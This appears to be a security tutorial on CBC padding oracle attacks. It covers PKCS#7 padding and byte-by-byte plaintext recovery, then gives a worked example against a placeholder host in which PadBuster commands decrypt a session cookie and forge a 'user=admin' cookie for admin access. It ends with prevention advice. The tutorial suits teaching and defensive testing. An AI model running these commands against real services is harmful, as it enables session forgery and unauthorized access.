


Block ciphers (like AES) only operate on fixed-size blocks, typically 16 bytes. If the plaintext length is not an exact multiple of the block size, padding bytes are appended to fill out the last block. The padding must be reversible, the server needs a way to know exactly how many bytes to strip off after decryption.

A naive scheme like "pad with the byte `FF` until the block is full" is ambiguous, if the original plaintext itself happened to end in `FF`, the server cannot tell where real data ends and padding begins. The standard solution, used by schemes like PKCS#7, is to encode the padding length as the value of the padding bytes themselves. If 3 bytes are needed, the padding is `03 03 03`, if 1 byte is needed, it's just `01`. After decrypting, the server reads the last byte, interprets it as "the length N", and verifies that the last N bytes all equal N. If they do, padding is valid and gets stripped, if not, padding is invalid.

---

## The Core Mechanism

A padding oracle attack is possible whenever a server leaks, in any observable way, whether a given ciphertext decrypted to a validly padded value or not. This is not a TLS-specific flaw, it can appear anywhere CBC-mode decryption happens and padding validity is distinguishable.

### How CBC Decryption Actually Works

In CBC mode, decrypting a block is a two-step process, a raw block cipher decryption to get an intermediate value, then an XOR with the previous ciphertext block to get the real plaintext:



```
intermediate = BlockCipherDecrypt(key, ciphertext_block_N)
plaintext_block_N = intermediate XOR ciphertext_block_N-1
```

The attacker never has the key, so they cannot compute `intermediate` directly. The entire attack is built around forcing the server to reveal this intermediate value indirectly, one byte at a time, purely through yes/no feedback about padding validity.

### Attacking the Last Byte of a Block

Focus on decrypting the final block of ciphertext. The attacker does not touch that block at all, instead, they take the ciphertext block immediately before it and modify only its last byte, sending the modified ciphertext back to the server and observing whether it accepts the padding.

Since `intermediate` only depends on the target block and the (unknown) key, changing the previous block's last byte doesn't change `intermediate`, it only changes the final XOR result, the decrypted plaintext byte. The attacker tries all 256 possible values for that modified byte until the server reports valid padding, which happens exactly when the resulting plaintext byte equals `0x01` (a single byte of padding, the simplest valid padding value).



Once that byte is found, the attacker can solve for the hidden `intermediate` value:

```
intermediate_last_byte = 0x01 XOR modified_byte_that_worked
```

### Recovering the Real Plaintext Byte

The attacker never modified the actual original ciphertext, only a working copy used for testing. Since the real, unmodified previous block is known, the real plaintext byte is recovered as:

```
real_plaintext_byte = intermediate_last_byte XOR original_ciphertext_byte
```

This gives one decrypted plaintext byte without ever touching the encryption key.

### Extending to the Whole Block and Message

The same technique is repeated for the second-to-last byte, this time forcing the last two plaintext bytes to equal `02 02` (valid padding for length 2), reusing the already-known last byte to calculate the required value. This continues byte by byte until the entire block is decrypted, then the attack shifts one block to the left and repeats the whole process, eventually decrypting the full ciphertext without any knowledge of the key. The same logic, run in reverse, also allows an attacker to construct a forged ciphertext that decrypts to an arbitrary plaintext of their choosing, since every intermediate byte can be derived the same way.

---

## Identifying the Vulnerability

The whole attack depends on the server behaving differently when padding is invalid versus valid. Any observable difference is enough, a distinct error message, a different HTTP status code, a different response body or length, or even a measurable timing difference between valid and invalid padding responses. If every response is byte-for-byte and timing-identical regardless of padding validity, the attack is not feasible.

### Typical Places This Shows Up

Session cookies or tokens that are manually encrypted with CBC mode and decoded server-side, custom authentication schemes that encrypt user identifiers or roles into a cookie value, API parameters that carry encrypted state (like pagination tokens or encrypted IDs), and legacy applications implementing their own crypto instead of using an authenticated encryption mode. Any endpoint that decrypts attacker-controllable ciphertext and reveals padding status, directly or indirectly, is a candidate.

---

## Practical Example

A login page sets a custom cookie after authentication:

```
Set-Cookie: user=AAAAAAAAAAAAAAAAAAAAAJQB/nhNEuPuNC8ox7cN1z0=
```

The value looks base64-encoded, decoding it yields raw binary, suggesting it's an encrypted blob. Requesting a protected endpoint with the original cookie returns a generic denial:

```http
GET /admin HTTP/1.1
Host: target.example
Cookie: user=AAAAAAAAAAAAAAAAAAAAAJQB/nhNEuPuNC8ox7cN1z0=
```

```http
HTTP/1.0 401 Unauthorized
```

Tampering with the cookie value and resending the request produces a different response:

```http
HTTP/1.0 500 Internal Server Error

Invalid Padding
```

The explicit error message confirms the server leaks padding validity, this is the signal to pursue a padding oracle attack.

### Exploiting with PadBuster

PadBuster automates the full byte-by-byte attack described above. Installation:

```bash
sudo apt install padbuster
```

Basic syntax requires the target URL, a sample encrypted value, and the block size (commonly 16 for AES, sometimes 8):

```bash
padbuster http://target.example/admin "AAAAAAAAAAAAAAAAAAAAAJQB/nhNEuPuNC8ox7cN1z0=" 16 -encoding 0 -cookies "user=AAAAAAAAAAAAAAAAAAAAAJQB/nhNEuPuNC8ox7cN1z0="
```

The `-encoding 0` flag specifies base64 encoding, `-cookies` tells PadBuster the ciphertext is in a cookie (use `-post` instead for a POST body parameter). PadBuster sends a batch of requests with different padding values and asks which response signature corresponds to valid padding:

```
ID# Freq    Status  Length
1   2       401     12
2** 254     500     15

NOTE: The ID# marked with ** is recommended : 2
```

After confirming, PadBuster recovers the plaintext byte by byte:

```
Block 1 Results:
[+] Cipher Text (HEX): 9401fe784d12e3ee342f28c7b70dd73d
[+] Intermediate Bytes (HEX): 757365723d6874622d7374646e740202
[+] Plain Text: user=lowpriv-user
```

If the server doesn't return a distinguishing status code but does return a consistent error string, the `-error` flag can be used instead to match on that text directly:

```bash
padbuster http://target.example/admin "AAAAAAAAAAAAAAAAAAAAAJQB/nhNEuPuNC8ox7cN1z0=" 16 -encoding 0 -cookies "user=AAAAAAAAAAAAAAAAAAAAAJQB/nhNEuPuNC8ox7cN1z0=" -error 'Invalid Padding'
```

### Forging an Arbitrary Ciphertext

Once the decryption oracle is confirmed, the same primitive can be used in reverse to encrypt a chosen plaintext, without ever knowing the key, using the `-plaintext` flag:

```bash
padbuster http://target.example/admin "AAAAAAAAAAAAAAAAAAAAAJQB/nhNEuPuNC8ox7cN1z0=" 16 -encoding 0 -cookies "user=AAAAAAAAAAAAAAAAAAAAAJQB/nhNEuPuNC8ox7cN1z0=" -plaintext "user=admin"
```

```
[+] Encrypted value is: Jdd83wBRLkdmqhUqUEjzmAAAAAAAAAAAAAAAAAAAAAA%3D
```

Setting this forged value as the cookie and resending the request to the protected endpoint grants access as the forged identity, since the ciphertext decrypts to `user=admin` server-side despite the attacker never touching the encryption key.

An alternative to PadBuster is the Burp extension Padding Oracle Hunter, which automates detection and exploitation directly from the proxy.

---

## Prevention

The most robust fix is switching away from unauthenticated CBC entirely and using an AEAD mode such as AES-GCM or ChaCha20-Poly1305. AEAD verifies ciphertext integrity before any decryption or padding parsing happens, a tampered ciphertext gets rejected outright, so there is no padding oracle to exploit in the first place.

Where CBC must still be used, the application must never expose any distinguishable signal about padding validity, same HTTP status code, same response body, same response timing, regardless of whether padding was correct or not. A generic decryption failure message should be used instead of anything mentioning padding specifically. As a general rule, avoid implementing custom cryptographic handling at all, rely on well-tested, standard libraries rather than rolling your own encryption or padding logic.